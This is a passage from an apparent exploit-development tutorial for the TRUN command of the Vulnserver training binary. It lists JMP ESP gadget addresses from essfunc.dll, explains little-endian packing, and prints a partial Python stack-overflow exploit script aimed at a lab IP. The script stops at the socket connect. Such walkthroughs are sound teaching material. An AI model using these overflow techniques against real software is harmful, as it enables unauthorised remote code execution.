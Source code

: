 ```bash
0x625011af : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
0x625011bb : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
0x625011c7 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
0x625011d3 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
0x625011df : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
0x625011eb : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
0x625011f7 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
0x62501203 : "\xff\xe4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
0x62501205 : "\xff\xe4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\Desktop\essfunc.dll)
```

In order to be usable, an address must not contain any of our found badchars. But it does not look like any of these addresses contain any badchars. They should all be usable.

So I went with the first one.

Make sure you write the address in small endian byte order onto the stack. The `struct` python standard library can take care of that for you:

```python
esp_gadget_address = 0x625011af
esp_gadget = struct.pack("<I", esp_gadget_address)
```

Here is the full script at this point:

```python
#!/usr/bin/env python3
# TRUN - Step 5 - JMP ESP
import socket
import struct

offset = 2005
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a

badchars = [ 0x00, 0x0a ] # found badchars

esp_gadget_address = 0x625011af
esp_gadget = struct.pack("<I", esp_gadget_address)

buf = b""
buf += b"TRUN /."
buf += b"A" * offset

#buf += b"B" * 4         # EIP overwrite
buf += esp_gadget        # JMP ESP

buf += b"C" * 4
buf += b"D" * (size - offset - 8)
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

```